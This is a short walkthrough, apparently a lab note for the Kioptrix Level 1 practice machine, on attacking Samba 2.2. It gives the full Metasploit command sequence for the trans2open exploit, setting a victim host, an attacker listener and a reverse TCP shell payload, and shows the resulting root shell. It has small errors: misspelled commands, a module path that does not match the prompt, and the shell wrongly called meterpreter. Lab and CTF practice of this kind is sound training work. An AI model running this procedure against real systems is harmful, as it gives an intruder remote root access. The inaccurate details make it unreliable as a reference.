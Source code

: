 #### Attacking Samba 2.2
```bash
$ searchsploit samaba 2.2
$ msfconsole
msf5 > search trans2open
msf5 > use exploit/freebsd/smaba/trans2open
msf5 exploit(linux/samba/trans2open) > options
msf5 exploit(linux/samba/trans2open) > set RHOST <Victim_IP>
msf5 exploit(linux/samba/trans2open) > set LHOST <Our_IP>
msf5 exploit(linux/samba/trans2open) > set LPORT 4444
msf5 exploit(linux/samba/trans2open) > set PAYLOAD linux/x86/shell_reverse_tcp
msf5 exploit(linux/samba/trans2open) > exploit / run
```
This will open a meterpreter shell with root access of the machine
```bash
whoami
root
hostname
kioptrix.level1
```